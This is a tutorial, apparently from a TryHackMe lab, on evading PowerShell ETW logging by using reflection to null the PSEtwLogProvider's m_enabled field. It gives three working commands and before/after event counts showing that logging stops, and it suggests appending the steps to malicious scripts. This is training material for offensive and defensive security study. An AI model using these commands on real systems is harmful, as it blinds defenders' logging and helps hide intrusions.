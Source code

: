 # PowerShell ETW Evasion via Reflection

Within PowerShell, ETW (Event Tracing for Windows) providers are loaded into the session from a .NET assembly: `PSEtwLogProvider`.

> From the Microsoft docs:  
> *"Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications."*

.NET assemblies may seem foreign, but they often take familiar forms such as `.exe` (executable) or `.dll` (dynamic-link library).

In a PowerShell session, most .NET assemblies are loaded in the same security context as the user at startup. Since the session has the same privilege level as the loaded assemblies, we can modify the assembly fields and values through PowerShell reflection.

> From O'Reilly:  
> *"Reflection allows you to look inside an assembly and find out its characteristics. Inside a .NET assembly, information is stored that describes what the assembly contains. This is called metadata. A .NET assembly is, in a sense, self-describing, at least if interrogated correctly."*

## ETW Evasion Technique

In the context of ETW, an attacker can reflect the ETW event provider assembly and set the field `m_enabled` to `$null`.

### High-Level Steps

1. **Obtain .NET assembly for `PSEtwLogProvider`.**
2. **Store a null value for `etwProvider` field.**
3. **Set the field for `m_enabled` to a previously stored value.**

### Example PowerShell Commands

**Step 1:** Obtain the type for the `PSEtwLogProvider` assembly.

```powershell
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```

**Step 2:** Store a value (`$null`) from the previous assembly to be used.

```powershell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

**Step 3:** Overwrite the `m_enabled` field with the value stored in the previous line.

```powershell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0)
```

You can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.

---

## Demonstration

To prove the efficacy of the script, execute it and measure the number of returned events from a given command.

### Before

```powershell
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
7
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
11
```

### After

```powershell
PS C:\Users\Administrator> .\reflection.ps1
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
```

In the first terminal, four events are generated when the `whoami` command is run. After executing the script, no new events are generated from running a command. Note that the PowerShell script itself creates seven events; this should be considered when evaluating this approach.